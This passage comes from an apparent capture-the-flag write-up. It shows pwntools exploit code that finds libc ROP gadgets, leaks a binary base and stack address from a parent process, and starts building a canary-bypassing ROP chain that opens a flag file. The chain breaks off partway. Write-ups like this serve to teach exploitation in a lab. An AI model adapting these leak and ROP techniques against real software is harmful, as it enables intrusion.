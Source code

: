 ```python
# libc gadgets
pop_rdi = libc.search(asm('pop rdi; ret')).__next__()
pop_rsi = libc.search(asm('pop rsi; ret')).__next__()
pop_rdx_r12 = libc.search(asm('pop rdx; pop r12; ret')).__next__()
xor_r10d = libc.search(asm('xor r10d, r10d; mov eax, r10d; ret')).__next__()
add_r10_rdi_0x20 = libc.search(asm('add r10, qword ptr [rdi + 0x20]; mov rax, r10; ret')).__next__()
pop_rax = libc.search(asm('pop rax; ret')).__next__()
mov_rax_ptr_rax = libc.search(asm('mov rax, qword ptr [rax]; ret')).__next__()
mov_ptr_rdi_rax = libc.search(asm('mov qword ptr [rdi], rax; xor eax, eax; ret')).__next__()
syscall = libc.search(asm('syscall; ret')).__next__()
```

With the location of libc known we can find the locations of the gadgets we'll need.


```python
# parent: binary.address leak
p.sendlineafter(b'> ',b'1')
p.sendafter(b'> ',(0x98 + 0x8 * 2) * b'A')
p.sendlineafter(b'> ',b'2')
p.recvuntil((0x98 + 0x8 * 2) * b'A')
binary.address = u64(p.recv(6) + b'\0\0') - binary.sym.main
log.info('binary.address: {x}'.format(x = hex(binary.address)))

# parent: stack leak
# 0x007ffec31df1a8│+0x00c8: 0x007ffec31df298
p.sendlineafter(b'> ',b'1')
p.sendafter(b'> ',(0x98 + 0x8 * 4) * b'A')
p.sendlineafter(b'> ',b'2')
p.recvuntil((0x98 + 0x8 * 4) * b'A')
buffer  = u64(p.recv(6) + b'\0\0')
buffer -= (0x007ffec31df298 - 0x007ffec31df1a8)
buffer -= (0x98 + 0x8 * 4)
log.info('buffer: {x}'.format(x = hex(buffer)))
```

More leaks.  But this time from the parent.  Again, does not matter.

> Parent leaks require an extra step to emit the leak.


```python
# child: rop chain
payload  = b''
payload += b'/home/asianparent/flag.txt\0'
payload += (0x98 - len(payload) - 0x10) * b'A'
payload += p64(canary)
payload += (0x98 - len(payload)) * b'B'

payload += p64(pop_rdi)
payload += p64(1)
payload += p64(libc.sym.sleep)

payload += p64(pop_rdi)
payload += p64(buffer)
payload += p64(pop_rsi)
payload += p64(0)
payload += p64(pop_rdx_r12)
payload += 2 * p64(0)
payload += p64(libc.sym.open)

payload += p64(pop_rdi)
payload += p64(buffer + len(payload) + 0x8 * 3)
payload += p64(mov_ptr_rdi_rax)
payload += p64(pop_rdi)
payload += p64(0xdeadbeef)
```